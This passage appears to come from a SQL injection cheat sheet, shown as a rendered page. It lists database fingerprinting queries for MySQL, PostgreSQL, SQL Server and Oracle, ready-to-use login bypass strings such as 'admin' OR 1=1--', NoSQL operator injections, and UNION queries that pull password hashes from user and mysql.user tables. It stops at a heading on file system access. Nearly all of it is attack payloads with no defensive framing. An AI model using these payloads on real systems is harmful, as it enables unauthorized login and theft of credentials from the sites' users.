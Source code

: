 #### System Information Extraction
```sql
-- MySQL
SELECT @@version, @@datadir, @@hostname, @@port;
SELECT user(), database(), connection_id();

-- PostgreSQL  
SELECT version(), current_database(), current_user;
SELECT inet_server_addr(), inet_server_port();

-- SQL Server
SELECT @@version, @@servername, @@servicename;
SELECT SYSTEM_USER, USER_NAME(), DB_NAME();

-- Oracle
SELECT * FROM v$version;
SELECT user, sys_context('USERENV','SESSION_USER') FROM dual;
```

### 2. 🔓 Authentication Bypass

#### Login Bypass Techniques
```sql
-- Basic bypass
admin'--
admin'/*
admin' OR '1'='1'--
admin' OR 1=1--

-- Advanced bypass
admin' OR 'x'='x
admin' OR 1=1#
admin'/**/OR/**/1=1--
admin' OR 1=1 LIMIT 1--

-- NoSQL injection (for NoSQL databases)
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}
```

#### Password Hash Extraction
```sql
-- Extract password hashes
1 UNION SELECT username,password FROM users--
1 UNION SELECT user,authentication_string FROM mysql.user--

-- Extract with concatenation
1 UNION SELECT CONCAT(username,':',password),null FROM users--
```

### 3. 📁 File System Access
